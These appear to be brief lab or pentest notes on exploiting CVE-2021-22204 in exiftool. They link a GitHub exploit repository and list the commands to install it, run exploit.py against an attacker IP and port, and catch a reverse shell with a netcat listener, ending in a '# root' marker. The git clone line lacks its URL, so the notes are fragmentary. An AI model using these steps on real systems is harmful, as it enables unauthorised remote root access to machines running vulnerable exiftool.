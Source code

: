 exiftool cve 2021 22204
[https://github.com/mr-tuhin/CVE-2021-22204-exiftool](#https://github.com/mr-tuhin/CVE-2021-22204-exiftool)


git clone 
pip install \-r requirements\.txt

python3 exploit\.py 192\.168\.45\.221 8081
nc \-nlvp 8081
# root
